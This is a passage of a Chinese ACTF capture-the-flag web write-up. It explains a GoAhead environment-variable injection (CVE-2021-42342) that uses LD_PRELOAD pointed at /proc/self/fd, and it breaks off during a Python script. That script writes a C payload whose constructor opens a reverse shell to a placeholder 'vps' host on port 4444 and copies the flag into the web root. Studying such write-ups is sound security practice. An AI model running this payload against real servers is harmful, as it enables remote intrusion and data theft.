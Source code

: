 ACTF-web-WP&amp;分析记录
====================

![image-20220630191904114](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-63df729e8e311683ea2f0d888507dda2cef45eb3.png)

​ 上周末的ACTF在web方向的题目质量还是很高的(至少对我这个caiji来说),同时出现了两个之前比赛不怎么常用的漏洞利用点,还是很值得学习的,一个是TLS的会话复用(HTTPS和FTPS均可,在这次比赛用的是FTPS),还有一个点那就是通过mysql的配置加载插件,然后插件提权进行RCE

gogogo
------

题目描述

```php
ACTF warmup
http://123.60.84.229:10218
docker retstart every 10 minutes!
```

看一下dockerfile:

![image-20220630181313802](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-bad44e43c45fc6ad5b7d37e3f56b4b3f52d69ddf.png)

可以看到从github项目下载了goahead服务,同时在cgi-bin接口/htllo

![image-20220630181500369](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-19125078f147f7ae11c435c94228c23f049830b6.png)

访问一下`/cgi-bin/hello`

![image-20220630181617858](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-56ecb49f09c246eb89430942514b217f8b0c0ca5.png)

可以看到返回了env命令的执行返回结果,到这里,题目的环境也就了解完了,漏洞点在哪里呢?

这个如果看过p神的文章:[GoAhead环境变量注入复现踩坑记](https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html)那对这个题就不会陌生了,可以看到题目的dockerfile和p神文章中的dockerfile可以说是如出一辙了

![image-20220630181901575](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-26ec3df49e4307f7fd80a46c80c463d5eea31bd1.png)

那么要怎么样利用漏洞解题,看过文章之后可以知道有以下漏洞点:

1. 该环境的goahead服务会将我们form表单传入的数据键值对设置为环境变量
2. `/proc/self/fd/xxx`这个指针指向我们上传的临时文件

这时候就要用到一个环境变量了:`LD_PRELOAD`

LD\_PRELOAD的作用和用法可以参考这两篇文章:[原理参考](https://zgao.top/%E5%88%A9%E7%94%A8ld_preload%E5%AE%9E%E7%8E%B0%E5%87%BD%E6%95%B0%E5%8A%AB%E6%8C%81%E4%BB%A5%E5%8F%8A%E7%94%A8%E6%B3%95%E6%80%BB%E7%BB%93/) ,[使用方法](https://cloud.tencent.com/developer/article/1683272)

最后我们传输一个form表单,设置`LD_PRELOAD=/proc/self/fd/6-20`(多线程)

```python
import os
import threading

payload="""
#include <stdlib.h>
#include <string.h>
__attribute__ ((constructor)) void call ()
{
    unsetenv("LD_PRELOAD");
    char str[65536];

    system("bash -c 'exec bash -i &>/dev/tcp/vps/4444 <&1'");

    system("cat /flag > /var/www/html/flag");
}
"""
f=open("payload.c","w")
f.write(payload)
```